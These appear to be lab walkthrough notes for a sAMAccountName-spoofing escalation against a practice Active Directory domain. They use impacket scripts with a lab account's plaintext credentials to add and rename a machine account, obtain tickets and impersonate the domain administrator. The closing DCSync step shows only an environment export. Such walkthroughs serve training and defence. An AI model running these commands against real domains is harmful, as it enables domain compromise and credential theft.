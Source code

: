 ### check the machine account quota
```
cme ldap -L
cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
Get-DomainObject -Identity domain_name -Properties ms-DS-MachineAccountQuota
```

### Prepare impacket (to get rename.py)
```
cd /opt/tools
git clone https://github.com/SecureAuthCorp/impacket myimpacket

cd myimpacket
git checkout -b mydev

python3.8 -m virtualenv myimpacket
source myimpacket/bin/activate
python3.8 -m pip install .

git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202

git merge 1202
git merge 1224


rehash
#now rename.py and getST.py should be there
```

### Exploitation
```
#Add a new computer
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'

#Clear the SPNs of our new compute
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'

#Rename the computer (computer -> DC)
renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing

#Obtain a TGT
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'

#Reset the computer name back to the original name
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing

#Obtain a service ticket with S4U2self by presenting the previous TGT
export KRB5CCNAME=/workspace/winterfell.ccache
getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug

#DCSync by presenting the service ticket
export KRB5CCNAME=/workspace/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```
